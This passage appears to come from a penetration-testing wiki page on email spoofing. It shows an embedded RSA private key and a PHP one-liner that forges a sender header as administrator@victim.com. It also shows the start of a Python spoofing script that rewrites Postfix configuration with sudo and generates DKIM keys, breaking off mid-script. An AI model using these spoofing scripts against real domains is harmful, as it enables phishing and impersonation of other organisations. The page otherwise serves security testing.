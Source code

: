 ```
-----BEGIN RSA PRIVATE KEY-----
MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
-----END RSA PRIVATE KEY-----
```
{% endhint %}

**Or you could do it manually:**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># This will send an unsigned message
</strong><strong>mail("your_email@gmail.com", "Test Subject!", "hey! This is a test", "From: administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
	<body>
		<h3>This is a test, not a scam</h3>
		<br />
	</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
    dkim_private_key = fh.read()

# Generate email
```
